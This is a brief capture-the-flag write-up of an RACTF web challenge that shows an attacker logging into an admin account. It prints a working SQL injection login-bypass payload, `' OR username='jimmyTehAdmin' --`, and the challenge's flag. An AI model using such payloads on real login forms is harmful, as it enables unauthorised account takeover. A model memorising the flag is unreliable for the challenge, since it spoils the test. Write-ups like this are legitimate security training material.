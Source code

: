 # Admin Attack

This is the same principle as Baiting. This time we need to log into the admin user.

From the list of users we found with the devloper credentials, `jimmyTehAdmin` is the account we need to log in to.

We can use a similar payload to before \(this challenge is more resitant to SQLMap\)

`' OR username='jimmyTehAdmin' --`

## Flag: ractf{!!!4dm1n4buse!!!}

